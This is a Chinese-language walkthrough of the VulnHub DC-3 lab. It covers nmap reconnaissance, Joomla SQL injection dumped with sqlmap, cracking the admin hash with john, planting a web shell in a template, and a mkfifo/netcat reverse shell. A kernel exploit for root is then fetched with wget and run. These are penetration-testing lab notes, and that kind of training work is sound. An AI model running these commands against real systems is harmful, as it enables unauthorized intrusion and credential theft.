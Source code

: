 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: DC3-Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2021-09-24
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false
typora-root-url: ..\..\..\..\.vuepress\public

---
```


## 0x01 部署

靶机地址：

><https://www.vulnhub.com/entry/dc-3,312/>

**DESCRIPTION**

DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).

If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.

只有一个flag

## 0x02 信息收集

靶机使用virtual box部署，kali使用vmware部署，都为桥接模式

nmap扫描网段

```
nmap -sP 172.21.34.0/24
```

![image-20210924101423240](/assets/img/image-20210924101423240.png)

发现靶机IP：172.21.34.31，继续扫描

```
nmap -T5 -A -v -p- 172.21.34.31
```

结果：

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-24 10:04 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating ARP Ping Scan at 10:04
Scanning 172.21.34.31 [1 port]
Completed ARP Ping Scan at 10:04, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:04
Completed Parallel DNS resolution of 1 host. at 10:04, 0.00s elapsed
Initiating SYN Stealth Scan at 10:04
Scanning 172.21.34.31 [65535 ports]
Discovered open port 80/tcp on 172.21.34.31
Completed SYN Stealth Scan at 10:04, 1.27s elapsed (65535 total ports)
Initiating Service scan at 10:04
Scanning 1 service on 172.21.34.31
Completed Service scan at 10:04, 11.06s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 172.21.34.31
NSE: Script scanning 172.21.34.31.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.41s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.04s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Nmap scan report for 172.21.34.31
Host is up (0.00072s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:2E:55:BC (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.048 days (since Wed Mar 10 08:55:41 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.73 ms 172.21.34.31

NSE: Script Post-scanning.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.28 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

发现80端口，运行的Joomla

## 0x03 漏洞利用

使用msf查看Joomla版本为3.7.0

![image-20210924102654550](/assets/img/image-20210924102654550.png)

搜索Joomla 3.7.0版本漏洞

![image-20210924102850545](/assets/img/image-20210924102850545.png)

发现CVE-2017-8917 SQL注入漏洞： https://www.exploit-db.com/exploits/42033

上sqlmap

```txt
sqlmap -u "http://172.21.34.31/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T '#__users' -C username,password --dump
```

发现用户

![image-20210924103753282](/assets/img/image-20210924103753282.png)

使用john爆破，得到密码

![image-20210924104911090](/assets/img/image-20210924104911090.png)

在`http://172.21.34.31/administrator/index.php`登录，发现模板编辑功能，可以愉快的加马了，修改Beez3模板下index.php，加上一句话

![image-20210924111319969](/assets/img/image-20210924111319969.png)

修改完成后将Beez3模板设置为默认模板，使用蚁剑连接成功

![image-20210924111451058](/assets/img/image-20210924111451058.png)

![image-20210924111544587](/assets/img/image-20210924111544587.png)

先拿shell，kali上运行

```
nc -lvp 4444
```

因为靶机上是openbsd nc，不支持-e，所以使用以下命令反弹shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.141.134 4444 >/tmp/f
```

![image-20210924141311663](/assets/img/image-20210924141311663.png)

## 0x04 提权

查看当前目录下，未找到flag相关文件，考虑提权，根据ubuntu和内核版本搜索相关漏洞

```
searchsploit -w ubuntu 16.04 4.4
```

![image-20210924141536034](/assets/img/image-20210924141536034.png)

使用CVE-2016-4557：https://www.exploit-db.com/exploits/39772

kali下载EXP

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip  --no-check-certificate
```

启动web服务

```
python -m SimpleHTTPServer 8090
```

靶机下载，解压，编译运行

```
wget http://172.21.34.30:8090/39772.zip
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
sh compile.sh
./doubleput
```

提权成功获得root权限，在`/root/`下发现flag文件，获得flag

![image-20210924142338904](/assets/img/image-20210924142338904.png)
